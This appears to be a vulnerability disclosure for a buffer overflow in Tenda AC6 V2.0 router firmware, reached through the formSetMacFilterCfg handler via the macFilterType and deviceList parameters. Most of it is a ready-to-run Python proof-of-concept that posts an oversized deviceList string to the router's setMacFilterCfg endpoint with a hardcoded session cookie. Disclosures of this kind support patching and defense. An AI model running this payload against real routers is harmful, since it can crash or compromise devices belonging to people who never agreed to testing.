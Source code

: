# Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetMacFilterCfg"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the function `formSetMacFilterCfg`, user-supplied parameters **`macFilterType`** and **`deviceList`** are passed to a function **without input validation**, ultimately leading to an **overflow**.

![image-20250614182456806](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614182456806.png)

poc

```
import requests
def send_payload(url, type,list):
    params = {b'macFilterType': type,b'deviceList': list}
    cookie={'password':'ssetgb'}
    response = requests.post(url, cookies=cookie, data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
url="http://192.168.1.1/goform/setMacFilterCfg"
type=b'black'
list="DEADBEEFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\r11"
send_payload(url, type, list)
```

![image-20250616215744978](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616215744978.png)